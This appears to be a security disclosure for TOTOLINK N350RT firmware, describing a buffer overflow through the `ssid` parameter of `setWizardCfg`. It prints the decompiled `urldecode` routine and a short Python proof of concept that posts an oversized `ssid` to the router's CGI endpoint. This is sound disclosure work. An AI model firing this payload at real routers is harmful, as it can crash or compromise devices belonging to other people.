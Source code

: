 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/206/ids/36.html

## Affected version

N350RT V9.3.5u.6139_B20201216

## Vulnerability details

In the N350RT V9.3.5u.6139_B20201216 firmware has a buffer overflow vulnerability in the `setWizardCfg` function. The `v49` variable receives the `ssid` parameter from a POST request. However, since the user can control the input of `ssid`, the statement `urldecode` can cause a buffer overflow injection vulnerability.

![image-20240721225923266](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721225923266.png)

```c
_BYTE *__fastcall urldecode(int a1, _BYTE *a2)
{
  _BYTE *v3; // $s2
  int v4; // $s1
  unsigned int i; // $s0
  int v6; // $v0
  int v7; // $v1
  int v8; // $v0
  char v9; // $a0
  char v10; // $a2
  char v11; // $v1
  char v12; // $a0
  char v13; // $a2
  _BYTE *v15; // [sp+4Ch] [+2Ch]

  v15 = a2;
  v3 = a2;
  v4 = 1;
  for ( i = 0; i < strlen(a1); ++i )
  {
    v6 = *(char *)(a1 + i);
    if ( v6 == 37 )
    {
      v7 = *(char *)(a1 + i + 1);
      i += 2;
      v8 = *(char *)(a1 + i);
      v9 = 0;
      if ( v7 >= 65 )
        v9 = 7;
      v10 = 0;
      if ( v7 >= 97 )
        v10 = 32;
      v11 = v7 - 48 - v9 - v10;
      v12 = 0;
      if ( v8 >= 65 )
        v12 = 7;
      v13 = 0;
      if ( v8 >= 97 )
        v13 = 32;
      *v3 = v8 - 48 - v12 - v13 + 16 * v11;
    }
    else
    {
      *v3 = v6;
    }
    ++v4;
    ++v3;
  }
  v15[v4 - 1] = 0;
  return v15;
}
```

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"topicurl":"setWizardCfg","ssid":"a"*0x1000}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240719025405153](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719025405153.png)
